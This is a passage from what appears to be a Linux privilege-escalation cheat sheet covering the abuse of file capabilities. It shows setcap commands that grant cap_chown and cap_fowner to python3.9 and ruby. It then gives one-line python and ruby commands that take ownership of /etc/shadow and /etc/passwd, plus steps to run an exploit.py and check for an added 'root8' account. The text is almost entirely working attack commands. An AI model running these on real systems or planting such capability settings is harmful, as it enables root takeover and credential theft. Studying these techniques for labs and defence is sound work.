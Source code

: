 ```bash
chmod +x exploit.py
```

```bash
./exploit.py
```

or

```bash
python3 exploit.py
```

```bash
grep root8 /etc/passwd
```

___

## cap_chown

#### Misconfiguring

**python**

```bash
setcap cap_chown+ep /usr/bin/python3.9
```

**ruby**

```bash
setcap cap_chown+ep /usr/bin/ruby
```

#### Exploiting

**python**
- give `[ug]id` : armour
```bash
python -c 'import os;os.chown("/etc/shadow",1001,1001)'
```

```bash
python -c 'import os;os.chown("/etc/passwd",1001,1001)'
```

**ruby**

```bash
ruby -e 'require "fileutils"; FileUtils.chown(1000, 1000, "/etc/shadow")'
```

## cap_fowner

#### Misconfiguring

```bash
setcap cap_fowner+ep /usr/bin/python3.9
```
